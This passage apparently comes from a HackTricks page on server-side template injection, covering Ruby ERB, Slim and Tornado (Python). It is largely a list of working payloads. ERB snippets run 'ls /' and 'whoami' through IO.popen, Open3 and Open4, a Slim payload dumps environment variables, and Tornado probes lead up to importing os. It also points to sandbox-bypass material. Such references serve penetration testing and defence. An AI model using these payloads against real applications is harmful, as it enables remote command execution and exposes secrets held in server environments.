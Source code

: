 <%= IO.popen('ls /').readlines() %>

<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>

<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

**More information**

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)​
    

## 

Slim (Ruby)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#slim-ruby)

-   `{ 7 * 7 }`
    

{ %x|env| }

**More information**

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)​
    

## 

Python[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#python)

Check out the following page to learn tricks about **arbitrary command execution bypassing sandboxes** in python:

[

Bypass Python sandboxes





](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

## 

Tornado (Python)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python)

-   `{{7*7}} = 49`
    

-   `${7*7} = ${7*7}`
    

-   `{{foobar}} = Error`
    

-   `{{7*'7'}} = 7777777`
    

{% import foobar %} = Error

{% import os %}

